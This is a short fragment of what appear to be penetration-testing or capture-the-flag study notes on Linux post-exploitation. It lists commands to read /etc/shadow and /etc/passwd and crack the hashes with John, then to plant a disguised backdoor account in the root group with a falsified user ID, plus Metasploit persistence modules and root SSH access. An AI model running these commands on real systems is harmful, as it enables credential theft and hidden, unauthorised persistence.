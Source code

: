 manually
5. cat /etc/shadow
6.  cat /etc/passwd
7. then unshadow
8. crack with john

## Persistence

creating backdoor user (works if ssh is running or rpc)
1. `useradd -m ftp -s /bin/bash` - create backdoor user with clandestine name
2.  `passwd ftp`  init password
3. `usermod -aG root ftp` - adds backdoor user to root users
4. `usermod -u 15 ftp` - adjust user id to make it look like it was made long ago

`search platform:linux persistence` - use the modules for persistence, may need to read info of exploits and play around with targets and values

`ssh -i ssh_key root@ip`




